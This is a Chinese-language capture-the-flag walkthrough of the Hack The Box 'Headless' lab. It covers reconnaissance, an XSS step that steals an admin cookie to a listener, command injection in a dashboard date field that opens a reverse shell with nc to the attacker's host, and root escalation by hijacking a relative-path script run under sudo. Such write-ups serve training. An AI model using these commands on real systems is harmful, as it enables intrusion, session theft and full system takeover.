


# Headless

:::info

Difficulty: Easy

Operating System: Linux

:::

## nmap 信息搜集

```bash title="sudo nmap -A --min-rate=5000 -T5 -p- 10.10.11.8"
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Mon, 25 Mar 2024 13:30:44 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest:
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

## web service

尝试访问 `http://10.10.11.8:5000/`


点击 `For questions` 按钮的时候，将会重定向到 `http://10.10.11.8:5000/support`



对输入的数据进行 fuzz 之后，唯一有可能的就是 XSS 攻击了，尝试植入 XSS 载荷

### XSS 植入

启动 Burp 监听，开启拦截，在页面上输入正常数据


点击 Submit 之后，拦截到数据包


对数据包进行编辑，植入 XSS 载荷

```plaintext
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

fname=admin&lname=admin&email=admin%40admin.com&phone=123456789&message=
```

同时 `nc -lvnp 9999` 开启监听，即可收到

```bash
┌──(randark ㉿ kali)-[~]
└─$ sudo python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.11.8 - - [25/Mar/2024 22:45:34] "GET /?aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

```plaintext
aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=

Base 64 Decode: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

同时通过目录爆破，扫描到 `/dashboard` 路由

将得到的 cookie 填入浏览器中，访问 `http://10.10.11.8:5000/dashboard`



对交互过程中的数据包进行抓包分析

```plaintext
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close

date=2023-09-15
```

### 命令拼接执行

尝试对参数进行拼接执行

```plaintext
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close

date=2023-09-15;nc -c /bin/bash 10.10.16.3 9999
```

成功执行

## User - dvir

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[22:52:56] Welcome to pwncat 🐈!
[22:53:21] received connection from 10.10.11.8:43764
[22:53:32] 10.10.11.8:43764: registered new host w/ db
(local) pwncat$ back
(remote) dvir@headless:/home/dvir/app$ whoami
dvir
```

### flag - user

```bash
(remote) dvir@headless:/home/dvir$ cat user.txt
2fad488ea81fe0a47f534e7350e97913
```

### 环境探测

```bash title="sudo -l"
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

查看文件信息

```bash title="file /usr/bin/syscheck"
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
```

看看脚本代码

```bash title="/usr/bin/syscheck"
#!/bin/bash

if ["$EUID" -ne 0]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

在其中发现 `./initdb.sh` 脚本文件，并且没指定目录的话，此文件可控

```bash
(remote) dvir@headless:/home/dvir$ echo "/bin/bash" > initdb.sh
(remote) dvir@headless:/home/dvir$ chmod +x initdb.sh
```

## user - root

```bash
(remote) dvir@headless:/home/dvir$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
whoami
root
```

### flag - root

```bash
cat root.txt
4d7c6f680cfe41ebfa19df7b06ac2273
```
